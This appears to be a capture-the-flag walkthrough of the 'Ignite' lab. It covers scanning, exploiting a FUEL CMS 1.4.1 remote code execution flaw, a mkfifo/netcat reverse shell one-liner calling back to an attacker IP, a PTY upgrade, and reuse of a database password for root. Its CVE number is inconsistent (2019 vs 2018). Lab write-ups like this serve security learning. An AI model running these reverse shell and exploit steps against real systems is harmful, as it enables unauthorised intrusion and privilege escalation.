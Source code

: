 Ignite:
We start by adding the $ip to the hosts file:

```bash
sudo echo "$ip" >> /etc/hosts
```

We begin with an nmap scan to identify services and software on the server:

```bash
nmap ignite.thm -sV
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
```

Robots Content:
```
Disallow: /fuel/
```

Accessing the directory mentioned in robots.txt, ignite.thm/fuel, we find a CMS version 1.4.1 with a CVE-2019-16763.

#FUEL CMS
#Version: <= 1.4.1
#CVE-2018-16763
#Tested on: Ubuntu - Apache2 - php5

We download the exploit for this CVE and manage to obtain a simple shell on the server, accessing it as the user www-data.

Using FIFO, we create a file in /tmp/

A FIFO file is created empty and acts as a communication channel between processes. One process can write data to the FIFO, while another process can read them. With the following command, we create a more comprehensive shell to proceed with the CTF:

```bash
rm /tmp/shell; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.8.44.97 44444 > /tmp/f
```

`rm` removes any file named `shell` in /tmp.
`mkfifo` creates the FIFO file named `f` in /tmp.
We use `cat /tmp/f` to read the FIFO file `f` in /tmp/f.
Then, we send the output through the PIPE `|` for a reverse netcat (nc) connection to the attacking machine.

"On the attacking machine, we execute the command `nc -nlvp 44444`."
This way, when the above command is executed, we will obtain an enhanced shell.

We check if Python is available using:
```bash
locate python3
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Analyzing configuration files of the Fuel CMS web system, we found the following file:

"-rwxrwxrwx 1 root root 4646 Jul 26  2019 /var/www/html/fuel/application/config/database.php"

Listing the permissions of the file, owned by ROOT with read and write permissions for all system users. We found a configuration file open for reading.

Searching passwords in PHP config files:
/var/www/html/fuel/application/config/database.php: 'password' => '???????',

This leads us to the idea of not keeping passwords the same in various places; this is the database password. Surprise, when trying to log in as the root user (su root), the password is exactly the same.

Achieving ROOT and obtaining the flags:

User
???????????????????????????????.flag
root
???????????????????????????????.flag
